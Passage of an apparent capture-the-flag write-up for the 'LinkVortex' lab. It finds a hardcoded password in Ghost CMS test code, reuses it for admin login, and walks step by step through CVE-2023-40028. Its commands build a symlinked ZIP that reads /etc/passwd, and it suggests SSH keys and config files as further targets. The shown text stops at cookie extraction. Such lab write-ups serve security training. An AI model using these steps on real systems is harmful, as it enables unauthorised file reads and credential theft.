 ```bash
	RUN chmod +x /entry.sh

	ENTRYPOINT ["/entry.sh"]
	CMD ["node", "current/index.js"]
```
### 🔹 2.2 Credential Discovery
- Hardcoded test credentials found in: `core/test/regression/api/admin/authentication.test.js`
```bash
❯ cat dev.linkvortex.htb/ghost/core/test/regression/api/admin/authentication.test.js

  54   │         it('complete setup', async function () {
  55   │             const email = 'test@example.com';
  56   │             const password = 'OctopiFociPilfer45';
  57   │ 
  58   │             const requestMock = nock('https://api.github.com')
  59   │                 .get('/repos/tryghost/dawn/zipball')
  60   │                 .query(true)
  61   │                 .replyWithFile(200, fixtureManager.getPathForFixture('themes/valid.zip'));
```
Login succeeded at `http://linkvortex.htb/ghost/#/dashboard` with:
- **User:** `admin@linkvortex.htb`
- **Password:** `OctopiFociPilfer45`
---
## 3. CVE-2023-40028 – Ghost CMS Arbitrary File Read
### 🔹 3.1 Manual Exploitation of CVE-2023-40028 (Step-by-step)
- Ghost CMS accepts `.png` uploads
- Symlinks are not sanitized if they target non-critical paths
- The script backend reveals file contents if `CHECK_CONTENT=true` is passed
- More info -> https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-40028
The following steps replicate the vulnerable behavior manually using symbolic links and a crafted ZIP archive:
#### 🗂️ 1. Prepare folder structure
```bash
❯ mkdir -p content/images/2024/
```
#### 🔗 2. Create symlink to a file you want to read (e.g., `/etc/passwd`)
```bash
ln -s /etc/passwd content/images/2024/exploit.png
```
(You can change `/etc/passwd` to any file like `/var/lib/ghost/config.production.json` or `/root/.ssh/id_rsa` if later combined with sudo bypass)
#### 📦 4. Create ZIP archive with preserved symlinks
```bash
zip -r -y exploit.zip content/images/2024/exploit.png
```
The `-y` option ensures the symbolic links are preserved inside the ZIP.
#### 🍪 5. Prepare your authenticated session
Log into Ghost (http://linkvortex.htb/ghost/) as `admin@linkvortex.htb` and extract the `ghost-admin-api-session` cookie from your browser
